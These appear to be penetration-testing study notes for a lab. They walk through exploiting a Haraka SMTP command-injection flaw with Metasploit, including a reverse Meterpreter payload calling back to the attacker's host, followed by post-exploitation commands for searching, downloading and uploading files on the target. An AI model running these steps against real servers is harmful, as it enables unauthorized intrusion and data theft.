 
  

- **_==Exploiting A Vulnerable SMTP Server==_**

> SMTP ( simple mail transfer protocole ) is communication protocole tht is used for the transmission of email

> on port 25 , or on port 465 and 587

> Haraka is smtp server developed in node.js , it come with plugin of proccessing attachments , haraka versions prior to V2.8.9 are vuln to command injection.

- ==Exploit SMTP==
    
    - `nmap -sS -sV -O <TARGET IP>` ⇒ to do some port scan to identify the smtp server
    - `u can do that by using mfsconsole` && `db_nmap`
    - `service postgrsql start` && `mfsconsole` && `workspace -a haraka`
    - `search type:exploit name:haraka` && `use exploit/linux/smtp/haraka`
    - `set rhost <target ip>` && `set srvport 9898` &&`set email_to root@attackdef.test` && `set payload linux/x64/meterpreter_reverse_http (non-staged payload )` && `set lhost <our ip>` && `run`
    

  

  

  

### ==**Post Exploitation Fundamentals**==

  

- ==**_Meterpreter Fundamentals_**==

> ==Meterpreter ( Meta-Interpreter )== payload is an advanced multi-functional payload that operates via DLL injection and is executed in memory on the target system , consequently making it difficult to detect .

> The payload is always executed in memory not on the disk , becuase that it is difficult to detect

- ==**_Meterpreter Fundamentals_**==
    
    - `nmap -sS -sV -O <TARGET IP>` ⇒ to do some port scan to identify the open ports
    
    > `u can do that by using mfsconsole` && `db_nmap`
    
    - `service postgrsql start` && `mfsconsole` && `workspace -a meterpreter`
    - now see what u have on open port , explore the ports and try to identify some exploitation of thats services .
    - After Find exploit of services , now try exploit it and get meterpreter session to take control of target system .
    - `help` ⇒ to see all command u can use on the meterpreter session .
    - `sessions -C <command u want> -i <session number>` ⇒ to intract with a sessions without open it while it in background
    - `session -k <number of the session >` ⇒ to kill the seesion
    - `download <name of file >` ⇒ to download file from target system to our system
    - `upload <name of file > <path u want >` ⇒ to upload file on the target system from our system
    - `checksum md5 <path>` ⇒ to get the md5 hash of particular binary
    - `search <file name >` ⇒ to search for file on the target system
    - `search -d <path> -f *``_<name>_``*` ⇒ to search for file on specific path and with a specific name
    - `search -f *.<file extensions>` ⇒ to search with specific file extensions
    - `shell` ⇒ to turn the meterpreter to shell || `bin/bash -i` ⇒ to get native shell session
    - `ctrl + c` ⇒ to kill the channel of the shell session
    